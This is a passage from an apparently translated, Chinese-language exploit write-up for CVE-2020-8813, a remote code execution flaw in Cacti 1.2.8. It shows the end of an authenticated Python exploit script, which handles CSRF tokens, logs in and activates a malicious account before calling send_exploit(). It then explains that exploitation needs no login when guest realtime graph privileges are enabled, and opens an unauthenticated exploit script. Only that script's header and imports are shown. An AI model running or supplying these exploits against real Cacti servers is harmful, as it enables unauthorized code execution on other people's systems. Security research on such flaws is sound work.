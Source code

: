 ```
                send_exploit()
            else:
                print("[-]Error while activating the malicous account")

        else:
            print("[-] Unable to retrieve CSRF token from admin page!")
            exit()

    else:
        print("[-]Cannot Login!")
else:
    print("[-] Unable to retrieve CSRF token!")
    exit() 
```

运行漏洞利用代码后，我们将获得以下内容：

![image](img/2b20d49bc0d77c49fd9e4573e97fbd7f.png)

### 未经身份验证的利用

如果 Cacti 启用了“来宾实时图”特权，则无需身份验证即可利用此漏洞，因此在这种情况下，不需要身份验证部分，您可以使用以下代码来利用此漏洞：

```
#!/usr/bin/python3

# Exploit Title: Cacti v1.2.8 Unauthenticated Remote Code Execution
# Date: 03/02/2020
# Exploit Author: Askar (@mohammadaskar2)
# CVE: CVE-2020-8813
# Vendor Homepage: https://cacti.net/
# Version: v1.2.8
# Tested on: CentOS 7.3 / PHP 7.1.33

import requests
import sys
import warnings
```
